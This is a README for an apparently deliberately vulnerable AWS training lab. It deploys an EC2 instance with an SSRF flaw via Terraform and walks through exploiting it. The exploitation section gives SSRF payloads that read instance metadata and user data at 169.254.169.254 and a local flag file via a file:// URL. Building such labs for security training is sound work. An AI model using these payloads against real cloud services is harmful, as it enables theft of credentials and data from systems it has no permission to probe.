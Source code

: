 # AWS EC2 SSRF Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the AWS EC2 SSRF vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on EC2 through the SSRF vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/ec2/ec2_ssrf/
```

Configure AWS Access Credentials

```shell
aws configure
```

![img](../../../images/1651044031.png)

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/1650428695.png)

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

![img](../../../images/1650429022.png)

## Vulnerability Utilization

On EC2 with SSRF vulnerabilities, we can use SSRF to read EC2 metadata, user data and other information.

read metadata

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1650429215.png)

read user data

> The premise is that the target has been configured with user data, otherwise will be disconnected.

```shell
http://169.254.169.254/latest/user-data
```

![img](../../../images/1650429432.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use SSRF to read this file.

```shell
file:///flag69152201.txt
```

![img](../../../images/1650429930.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
